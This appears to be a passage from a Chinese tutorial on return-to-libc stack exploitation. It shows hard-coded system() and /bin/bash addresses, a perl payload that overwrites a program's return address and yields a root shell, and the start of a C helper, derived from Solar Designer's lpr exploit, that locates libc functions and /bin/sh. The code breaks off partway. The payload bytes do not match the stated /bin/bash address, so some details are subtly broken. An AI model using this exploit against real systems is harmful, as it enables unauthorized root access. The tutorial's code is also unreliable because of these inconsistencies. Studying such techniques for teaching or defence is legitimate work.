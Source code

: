 好了，我们已准备好需要的信息：

1.  system() 的地址： 0xb7e3e850
2.  /bin/bash 的址址： 0xbffff85c

下面，将这些合一起，可以看到：

```
$ retlibc `perl -e 'print "\x50\xe8\xe3\xb7"x6,"XXXX","\x5c\xf8\xff\xb7"'`
#
```

到此，成功获得shell。

> 使用“return to libc”， 就能将程序流程导向二进制代码的其他部分。通过将返回路径加载到函数上，当我们重写EIP时，就能将程序流程导向该应用程序的其它部分。因为已经将有效的返回地址和数据位置加载到了栈上，因此应用程序不会知道它已被改变，这使我们能够利用这些技术来启动目标shell。

* * *

利用环境变量来抓取字符串/bin/sh，地址会相对有变化，下面介绍另外的方法，通过一个小程序来取得libc函数的地址，通过搜查内存来得到/bin/sh的地址。

```
/* filename:  searhcbin.c */
/* Search routine, based on Solar Designer's lpr exploit. */

#include <stdio.h>
#include <stdlib.h>
#include <dlfcn.h>
#include <signal.h>
#include <setjmp.h>
#include <string.h>

int step;
jmp_buf env;

void fault() {
    if (step < 0)
        longjmp(env, 1);
    else {
        printf("Can't find /bin/sh in libc, use env instead...\n");
        exit(1);
    }
}

int main(int argc, char *argv[])
{
    void * handle;
    int * sysaddr, * exitaddr;
    long shell;
    char examp[512];
    char * args[3];
    char * envs[1];
    long * lp;

    handle = dlopen(NULL, RTLD_LOCAL);

    *(void **)(&sysaddr) = dlsym(handle, "system");
    sysaddr += 4096;  /* 4096*4 = 16384 = 0x4000 = base addr */
    printf("system() found at %08x\n", sysaddr);

    *(void **)(&exitaddr) = dlsym(handle, "exit");
    exitaddr += 4096;
    printf("exit() found at %08x\n", exitaddr);

    /* Now search for /bin/sh using Solar Designer's approach */

    if (setjmp(env))
        step = 1;
```